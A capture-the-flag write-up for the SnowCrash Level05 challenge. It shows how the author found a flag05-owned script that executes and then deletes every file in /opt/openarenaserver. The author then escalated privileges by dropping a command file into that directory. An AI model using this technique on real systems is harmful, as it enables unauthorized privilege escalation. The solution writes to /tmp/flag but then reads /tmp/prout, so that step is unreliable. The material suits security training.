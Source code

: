 # Level05

## Research 

```bash
level05@SnowCrash:~$ ls
```
returns nothing.

```bash
level05@SnowCrash:~$ find / -user flag05 2>/dev/null
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
```
```bash
level05@SnowCrash:~$ cd /usr/sbin && ls -l openarenaserver
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 openarenaserver
```

The file has ACLs extended permissions. We can do `getfacl openarenaserver` to see them.</br>

```bash
level05@SnowCrash:/usr/sbin$ cat openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
For each file in `/opt/openarenaserver/` it will execute it then supress it.

`Invoking a Bash shell with the -x option causes each shell command to be printed before it is executed.` </br>
https://docs.actian.com/vector/4.2/index.html#page/SysAdmin/Bash_Shell_-x_Option.htm
`ulimit: user limits - limit the use of system-wide resources. -t The maximum amount of cpu time in seconds.`

```bash
level05@SnowCrash:/usr/sbin$ ./openarenaserver
bash: ./openarenaserver: Permission denied
```
We don't have rights to execute `openarenaserver`.
However the files I created to test stuff in `/opt/openarenaserver/` disappeared after a while, maybe `openarenaserver` is **launched by a cronjob** or something.

```bash
level05@SnowCrash:~$ echo "getflag" > /opt/openarenaserver/getflag
```
And waiting a bit of time for the program to be launch didn't do anything. Maybe redirect the output somewhere can work.

## Solution

```bash
level05@SnowCrash:~$ echo "getflag > /tmp/flag" > /opt/openarenaserver/getflag
[... Wait a bit of time here...]
level05@SnowCrash:~$ cat /tmp/prout
```
Give us the flag
